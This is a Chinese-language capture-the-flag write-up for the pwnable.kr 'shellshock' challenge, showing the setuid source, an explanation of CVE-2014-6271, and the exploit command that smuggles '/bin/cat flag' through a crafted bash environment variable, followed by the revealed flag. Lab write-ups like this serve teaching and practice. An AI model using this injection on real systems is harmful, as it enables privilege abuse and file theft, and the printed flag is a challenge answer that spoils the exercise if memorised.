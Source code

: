 # shellshock - 1pt

## 问题描述
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

## 源码分析

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

## 解题思路

Shellshock，又称Bashdoor，是在Unix中广泛使用的Bash shell中的一个安全漏洞. 漏洞的具体分析可以查看这篇文章: [破壳（ShellShock）漏洞样本分析报告](http://www.freebuf.com/articles/system/45390.html)

shellshock与flag属于同一用户组，因此可以通过shellshock读取flag文件

文章给出的测试命令如下：
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test" 
```
pwnable.kr也提供了一个存在漏洞的bash
```bash
shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' /home/shellshock/bash -c "echo this is a test" 
vulnerable
this is a test
```
因此

```bash
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' /home/shellshock/shellshock -c "/bin/cat flag" 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

## flag
only if I knew CVE-2014-6271 ten years ago..!!

